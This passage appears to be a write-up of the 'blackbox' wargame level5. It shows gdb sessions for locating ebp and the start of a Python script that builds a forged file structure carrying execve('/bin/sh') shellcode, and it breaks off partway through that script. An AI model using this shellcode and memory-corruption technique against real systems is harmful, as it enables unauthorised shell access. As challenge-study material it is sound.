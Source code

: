 The only open question left is - what is `ebp`?

Let's take a look:

```
level5@blackbox:~$ gdb list
...
(gdb) break main
Breakpoint 1 at 0x8048216
(gdb) run
Starting program: /home/level5/list 

Breakpoint 1, 0x08048216 in main ()
(gdb) p $ebp
$1 = (void *) 0xbfffd8f8
```

Well, this means that we need to override `fp` with `ebp-0x2878=0xbfffb080`.

This is not good, because in `0xbfffb0a0` we have `0xff` which we can not write.

This pretty much closes the lid on everything we were planning so far, because the basic premise of the entire strategy is that we can redirect `fp` to our own file structure.
However, we should not abandon all hope, because we have the power to make the stack begin much lower by simply feeding some very long argument to the program. Let's see how this works:

```
(gdb) run `python -c "print 'a'*0x100"`
Starting program: /home/level5/list `python -c "print 'a'*0x100"`

Breakpoint 1, 0x08048216 in main ()
(gdb) p $ebp
$1 = (void *) 0xbfffd7f8
```

This address is lower by `0x100` bytes than `ebp` when running without parameters. Let's try again now with an even larger number:

```
(gdb) run `python -c "print 'a'*0x10000"`
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/level5/list `python -c "print 'a'*0x10000"`

Breakpoint 1, 0x08048216 in main ()
(gdb) p $ebp
$2 = (void *) 0xbffed8f8
```

Bingo! that is our `ebp` for reasons I'll go into in a pending article. Suffice to say that when running list inside gdb we have `argv[0]=/home/level5/list` (as I highlighted above) , and when running from `/tmp` we have `argv[0]=/home/level5/list`, which are the same.

Well, now that we have all our constants and strategies settled down, we can generate the input file. I like using scripts:

```python
import struct
EBP = 0xbffed8f8
FIXEDBUF = EBP - 0x2878
I = EBP - 0x8
PTR1 = FIXEDBUF + 0x98
PTR2 = FIXEDBUF + 0xbc
SHELLCODE = "31c050682f2f7368682f62696e89e3505389e131d2b00bcd80".decode("hex")

FILE = ""
FILE += struct.pack("<L", 0x08080808)
FILE += '\x90' * 0x90
FILE += struct.pack("<L", PTR1)
FILE += '\x90' * 0x20
```